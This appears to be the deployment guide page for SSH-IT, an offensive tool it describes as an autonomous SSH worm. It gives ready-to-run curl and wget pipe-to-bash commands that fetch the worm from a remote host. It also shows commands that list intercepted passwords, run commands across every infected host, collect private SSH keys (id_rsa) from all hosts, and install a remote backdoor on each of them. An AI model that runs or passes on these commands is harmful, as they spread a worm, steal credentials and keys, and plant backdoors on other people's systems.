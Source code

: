 ```yaml
---
layout: default
title: SSH-IT | Deploy
decription: Autonomous SSH worm deployment guide.
---
```


Use either one of these commands to deploy:

```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

or:

```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:

```shell
~/.config/prng/thc_cli -r list
```

{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}

To uninstall use:

```shell
~/.config/prng/thc_cli -r uninstall
```

## Environment variables:

Deployment can be controlled with these environment variables

| :--- | :--- |
| `THC_DEPTH=` | SSH-IT will spread to this depth and then stop. The default is `THC_DEPTH=2`. |
| `THC_BASEDIR=` | Installation directory. Default is `THC_BASEDIR="${HOME}/.config/prng"`. |
| `THC_VERBOSE=1` | For testing only: Display a warning to the user when *ssh* is being intercepted (in bold red). |
| `THC_DEBUG=1` | For testing only: Display debug information |
| `THC_DEBUG_LOG=thc.log` | For testing only: Output (most) debug information to `thc.log`. |

Example:

```shell
THC_DEPTH=6 THC_DEBUG=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

## Tips & Tricks

SSH-IT is controlled with `thc_cli`.

```
usage: thc_cli [-hr] [command]
    -h          This help
    -r          Recursive (for all hosts)
Command:
    list       - Show passwords
    exec <cmd> - Execute <cmd> on target [e.g. thc_cli -r exec "id; date"]
    clean      - Clean logfiles and state information
    disable    - Disable interception
    uninstall  - Clean, disable and completely remove
Example: thc_cli -r list
```

### Remote Command Execution

Executing a command on _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'id'
```

Retrieve the private SSH key (`id_rsa`) from _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'cat .ssh/id_rsa 2>/dev/null'
```

Install a [backdoor](https://www.gsocket.io/deploy) on _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'bash -c "$(curl -fsSL gsocket.io/x)"'
```

### Offline Installs or when HTTPS is not available

Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):

```shell
# Without HTTPS
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
bash ./ssh-it-deploy.sh
```

### Help the team

Help us fix bugs and send us `thc.log` if a boo-boo happens:

```shell
THC_DEBUG=1 THC_DEBUG_LOG=thc.log ssh user@yourhost "id"
```

Special thanks to Leonardo, Gerald, BadAdvert1zer and DoctorWho for ideas and testing.

## Contact

{% include contact-details.md %}
